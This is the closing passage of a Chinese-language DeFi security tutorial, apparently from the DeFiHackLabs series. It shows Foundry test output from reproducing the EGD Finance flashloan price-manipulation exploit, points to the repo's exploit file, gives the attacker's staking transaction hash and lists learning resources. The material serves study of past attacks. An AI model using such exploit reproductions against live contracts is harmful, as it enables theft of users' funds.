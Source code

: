 ```
  Claim all EGD Token reward from EGD Finance contract
  [INFO] Get reward (EGD token): 5630136.300267721935770000
  Flashloan[2] payback success
  Swap the profit...
  Flashloan[1] payback success
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker USDT Balance: 18062.915446991996902763

Test result: ok. 1 passed; 0 failed; finished in 1.66s
```

> 註: DeFiHackLabs 提供的 EGD-Finance.exp.sol 有 Reproduce 攻擊者的前置 Stacking 作業。
>
> 本教程未涵蓋到前置動作，你可以自己練習看看！
> Attacker Stack Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8

第三課分享就先到這邊，想學更多可以參考以下學習資源。
---
## 學習資源
[samczsun's eth txn explorer and vscode extension](https://www.youtube.com/watch?v=HXgu239mPBc)

[Vulnerabilities in DeFi by Daniel V.F.](https://www.youtube.com/watch?v=9fcOffCg2ig)

[Tenderly.co - Debug Transaction](https://www.youtube.com/watch?v=90GN9Ut8LhU)

[Reversing The EVM: Raw Calldata](https://degatchi.com/articles/reading-raw-evm-calldata)

https://web3sec.xrex.io/
